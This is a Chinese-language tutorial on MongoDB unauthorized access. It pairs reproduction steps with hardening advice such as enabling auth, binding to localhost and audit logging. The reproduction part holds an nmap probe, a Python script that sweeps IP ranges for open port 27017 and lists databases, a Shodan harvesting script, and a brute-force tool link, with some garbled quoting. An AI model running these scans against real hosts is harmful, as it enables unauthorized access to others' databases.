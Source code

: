 # Mongo DB未授权访问

> 原文：[https://www.zhihuifly.com/t/topic/3031](https://www.zhihuifly.com/t/topic/3031)

# MongoDB未授权访问

## 一、漏洞简介

MongoDB 默认直接连接，无须身份验证，如果当前机器可以公网访问，且不注意Mongodb 端口（默认 27017）的开放状态，那么Mongodb就会产生安全风险，被利用此配置漏洞，入侵数据库。

*   使用默认 mongod 命令启动 Mongodb
*   机器可以被公网访问
*   在公网上开放了 Mongodb 端口
*   数据库隐私泄露
*   数据库被清空
*   数据库运行缓慢

## 二、影响范围

## 三、复现过程

#### 1\. 扫描探测

#### 2\. 下载：

http://nmap.org/svn/scripts/mongodb-info.nse

```
nmap -p 27017 --script mongodb-info <ip> 
```

![image](img/3d8709b0cdcb0dbbec443c096f7349ed.png)

```
vim /etc/mongodb.conf
dbpath = /data/
logpath = /var/logs/mongodb.log
##port = 27017
##fork = true
bind_ip = 0.0.0.0 `./mongod –config mongodb.conf [//启动mongodb加载配置mongodb.conf](//xn--mongodbmongodb-rp1xpdy51a6z2tx0pcfuh.conf)` 
```

##### 1.1 基础

*   https://www.jianshu.com/p/8bf26effa737
*   http://www.runoob.com/mongodb/mongodb-tutorial.html
*   https://itbilu.com/database/mongo/E1tWQz4_e.html

##### 1.2 批量扫描未授权

```
import socket
import sys
import pymongo

ipcons = []

def Scanner(ip):

global ipcons

sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

sk.settimeout(0.3)

try:

sk.connect((ip,27017))

ipcons.append(ip)

sk.close()

except Exception:

pass

def ip2num(ip):

ip=[int(x) for x in ip.split(’.’)]

return ip[0] <<24 | ip[1]<<16 | ip[2]<<8 |ip[3]

def num2ip(num):

return ‘%s.%s.%s.%s’ %( (num & 0xff000000) >>24,

(num & 0x00ff0000) >>16,

(num & 0x0000ff00) >>8,

num & 0x000000ff )

def get_ip(ip):

start,end = [ip2num(x) for x in ip.split(’ ') ]

return [ num2ip(num) for num in range(start,end+1) if num & 0xff ]

startIp = sys.argv[1]

endIp = sys.argv[2]

iplist = get_ip(sys.argv[1]+" "+sys.argv[2])

for i in iplist:

Scanner(i)

def connMon(ip_addr):

print ’ Connect mongodb: ’ + ip_addr + ‘:27017’

try:

conn = pymongo.MongoClient(ip_addr,27017,socketTimeoutMS=3000)

dbname = conn.database_names()

print “success”

except Exception as e:

print “error”

print ipcons

for ipaddr in ipcons:

connMon(ipaddr)

print “=================” 
```

##### 1.3 shodan扫描脚本

```
##!/usr/bin/python
## -*- coding: UTF-8 -*-
'''
@Author：joy_nick
@博客：http://byd.dropsec.xyz/
'''
import shodan
import os
iplist = []
ip_list = []
shodan_ip_list = []
def shodanSearch(keywords):
    SHODAN_API_KEY = "your key"
    api = shodan.Shodan(SHODAN_API_KEY)
    total = 0
    try:
        results = api.search(keywords)
        total = int(results['total'])
        for result in results['matches']:
            ##iplist.append({"ip":result['ip_str'],"country":result['location']['country_name']})
            iplist.append(result['ip_str'])
            for i in range(len(iplist)):
                ip_list = iplist[i].encode('utf-8')
                shodan_ip_list.append(ip_list)
                s = '\n'.join(shodan_ip_list)
                with open('shodan_ip_list.txt','w') as output:
                    output.write(s)
    except shodan.APIError, e:
        print 'Error: %s' % e
if __name__ == '__main__':
    shodanSearch('redis') 
```

查询操作

![image](img/dfc06acb4f8d9aa164ae7371b1e31bcd.png)

#### 2\. 爆破脚本

https://github.com/netxfly/x-crack

#### 4\. 防范措施

**(1).新建管理账户开启MongoDB授权**
新建终端[参数默认可以不加，若有自定义参数，才要加上，下同]
mongod --port 27017 --dbpath /data/db1

另起一个终端，运行下列命令

```
mongo --port 27017

use admin

db.createUser(

{

user: “adminUser”,

pwd: “adminPass”,

roles: [ { role: “userAdminAnyDatabase”, db: “admin” } ]

}

) 
```

管理员创建成功，现在拥有了用户管理员 用户名:adminUser 密码:adminPass

![image](img/34775b8ba7f71f32f094105952bb000b.png)

**(2).本地访问**
bind 127.0.0.1
**(3).修改默认端口**
修改默认的mongoDB端口(默认为: TCP 27017)为其他端口

**(4).禁用HTTP和REST端口**
MongoDB自身带有一个HTTP服务和并支持REST接口。在2.6以后这些接口默认是关闭的。mongoDB默认会使用默认端口监听web服务，一般不需要通过web方式进行远程管理，建议禁用。修改配置文件或在启动的时候选择–nohttpinterface 参数nohttpinterface = false
**(5).开启日志审计功能**
审计功能可以用来记录用户对数据库的所有相关操作。这些记录可以让系统管理员在需要的时候分析数据库在什么时段发生了什么事情
**(6).开启auth认证**

```
/etc/mongodb.conf  
auth = true 
```

其他:http://www.mottoin.com/105609.html